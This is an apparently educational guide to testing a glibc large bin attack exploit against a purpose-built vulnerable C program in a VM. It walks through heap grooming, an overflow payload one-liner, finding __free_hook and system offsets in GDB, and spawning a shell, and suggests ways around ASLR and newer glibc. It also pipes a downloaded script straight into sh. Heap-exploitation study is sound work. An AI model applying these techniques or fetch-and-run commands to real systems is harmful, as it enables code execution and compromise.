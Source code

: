 Testing the Large Bin Attack Exploit in C
Overview
This guide explains how to test the Large Bin Attack exploitation demo project in C for Linux (glibc-based systems like Ubuntu 22.04). The project includes a vulnerable program (vuln.c) with an off-by-one heap overflow and an exploit PoC (exploit.c) that grooms large bins, corrupts pointers, and hijacks __free_hook to execute system("/bin/sh"). Testing is for educational purposes only—run in an isolated virtual machine (VM) to avoid risks. Disable ASLR for predictability, as the code uses placeholder addresses.
Prerequisites:

Ubuntu 22.04 LTS VM (or similar with glibc 2.35).
Installed tools: gcc, gdb (install via sudo apt update && sudo apt install gcc gdb).
Compiled files: Use gcc vuln.c -o vuln -no-pie -g and gcc exploit.c -o exploit -g.
Ethical reminder: This simulates a vulnerability; do not use on real systems.

Step 1: Disable ASLR and Setup
ASLR randomizes addresses, making exploits unpredictable. Disable it for the vulnerable process:

Run the vulnerable program with: setarch $(uname -m) -R ./vuln.
This command disables ASLR only for that session. For persistent testing, echo 0 to /proc/sys/kernel/randomize_va_space (requires root; revert after).

Verify setup:

Compile both files as above.
Ensure glibc version matches: ldd --version should show ~2.35. If not, adjust offsets or use a compatible VM.

Step 2: Find Real Offsets Using GDB
The code uses placeholders for __free_hook, system, and libc base. These vary by system—use GDB to find them:

Start GDB on the vulnerable program: gdb ./vuln.
Set a breakpoint: break main (or b main).
Run the program: run (or r).
Find libc base (with ASLR off via setarch): Use info proc mappings—look for the start address of libc.so.6 (e.g., 0x7ffff7c00000). Update LIBC_BASE in exploit.c.
Find __free_hook offset: print &__free_hook—subtract libc base to get the offset (e.g., if address is 0x7ffff7ffeb28, offset = 0x7ffff7ffeb28 - LIBC_BASE). Update FREE_HOOK_OFFSET in exploit.c.
Find system offset: print &system—subtract libc base. Update SYSTEM_OFFSET.
Recompile exploit.c after updates: gcc exploit.c -o exploit -g.

Tip: If __free_hook is not available (deprecated in newer glibc), adapt to target __exit_funcs or use one_gadget tool (install via Ruby: gem install one_gadget, then one_gadget /lib/x86_64-linux-gnu/libc.so.6 for alternative ROP gadgets).
Step 3: Test Manually (Interactive Mode)
Run the vulnerable program and simulate the exploit steps manually to verify the vulnerability:

Start vuln: setarch $(uname -m) -R ./vuln.
Follow grooming steps (matching exploit.c):

Choose 1 (Alloc), index 0, size 1280 (0x500 in decimal).
Alloc index 1, size 1536 (0x600).
Alloc index 2, size 1792 (0x700).
Alloc index 3, size 1280 (0x500) — this is the victim chunk.
Choose 3 (Free), free indices 0, 1, 2 (populates large bins).


Overflow via edit: Choose 2 (Edit), index 3. Input a long string: 1280 'A's + forged bk data. Use Python to generate: python3 -c "print('A'*1280 + '\x00'*24 + '\xXX\xXX...' )" (replace XX with little-endian bytes of (LIBC_BASE + FREE_HOOK_OFFSET) - 0x20).
Trigger the attack: Alloc a new chunk (size 2048/0x800), then free it. This inserts into large bins, triggering partial unlink and corrupting __free_hook.
Overwrite and trigger: Alloc a small chunk (size 256), edit to "/bin/sh", free it. If successful, a shell spawns (e.g., /bin/sh prompt).

Expected Outcome: If offsets are correct, you'll get a shell. Otherwise, segfault—debug next.
Step 4: Automate with the Exploit
The exploit.c grooms and overflows conceptually but needs integration for full automation (it doesn't directly interact with vuln). For testing:

Modify vuln.c to accept batch inputs if needed (e.g., read from stdin in a loop).
Run exploit and pipe if possible: ./exploit | setarch $(uname -m) -R ./vuln (may require vuln adjustments for non-interactive mode).
Alternatively, run vuln in one terminal, input exploit-generated payload manually during edit.
Success: After running, check for shell spawn. Use ps aux | grep sh to confirm.

Note: If piping fails, use tools like expect script or modify exploit to use popen("./vuln", "w") and fprintf menu choices/payloads.
Step 5: Debugging Failures
Use GDB for in-depth analysis:

Run: gdb --args setarch $(uname -m) -R ./vuln.
Install GEF (GDB plugin for heap analysis): wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh.
In GDB: gef config context.layout "legend code source stack threads trace".
Set breakpoints: break free, break malloc.
Run and step through: Use heap bins to inspect large bins (should show corrupted bk after overflow).
Watch variables: watch &__free_hook to see overwrite.
Common issues & fixes:

Segfault: Wrong offsets—recheck with GDB.
No corruption: Adjust payload offset (0x500 + 0x18 may vary by alignment).
Tcache interference: Use even larger sizes (>0x1000) to force large bins.
glibc mismatch: If __free_hook fails, target __malloc_hook or use FSOP (File Stream Oriented Programming) for stdout hijack.



Troubleshooting and Extensions

No Shell? Verify with p *__free_hook in GDB—it should equal system address after trigger.
glibc 2.35+ Issues: __free_hook is deprecated; extend to overwrite __exit_funcs (find offset similarly) or use one_gadget for single-call shell.
Add Leak Stage: For real ASLR, add unsorted bin leak: Free large chunk, read its bk (contains libc base), compute dynamically in exploit.
Resources: Refer to how2heap GitHub for similar examples; CTF writeups on large bin attacks.
